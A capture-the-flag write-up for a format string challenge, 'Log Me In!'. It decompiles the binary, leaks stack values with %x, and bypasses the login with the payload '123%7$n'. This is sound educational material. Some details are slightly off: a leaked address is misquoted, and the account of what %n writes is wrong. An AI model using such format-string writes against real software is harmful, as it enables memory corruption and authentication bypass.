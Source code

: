 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n", __ptr);
  printf("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    printf("Invalid login information.");
  }
  else {
    printf("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read values on the stack, and write to values elsewhere.

I played around with the ```%x``` format specifier, which prints out the values on the stacks, to get things started with. After some experimentation, a few values on the stack were printed out. 

```
$ python2 -c 'print "%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x"' | ./logmein
user = 0x11882a0
Enter your username:
Enter password for user: 40202f-0-0-11882a4-19-be9a79d0-Invalid login information.
```
The value ```0x12fe2a4``` was found on the stack, which meant that memory address of the username (4 bytes off ```user```) was present, but not the actual address of ```user```. The input, capped to a total of 20 characters, was too long to show the other variables on the stack. 

Removing the hyphens (though this makes things less clear), other values further up the stack can be shown:
```
$ python2 -c 'print "%x%x%x%x%x%x%x%x%x"' | ./logmein
user = 0x23272a0
Enter your username:
Enter password for user: 40202f0023272a419158a692023272a00a0287083
Invalid login information.
```

The address of ```user``` can be found at the seventh 4-byte value on the stack. We confirm this by using ```%7$x``` as an input:
```
$ python2 -c 'print "%7$x"' | ./logmein
user = 0xdb32a0
Enter your username:
Enter password for user: db32a0
Invalid login information.
```

Now, the only thing left is to write to this value. This can be done by using the ```%n``` specifier. The (hexadecimal) value to the left of the specifier is written to the address specified.

**Solution**
```
$ python2 -c 'print "123%7$n"' | ./logmein
user = 0x15d3010
Enter your username:
Enter password for user: 123
adsf
Successfully logged in!
```

**Flag**
```
flag{why_does_printf_even_have_%n}
```
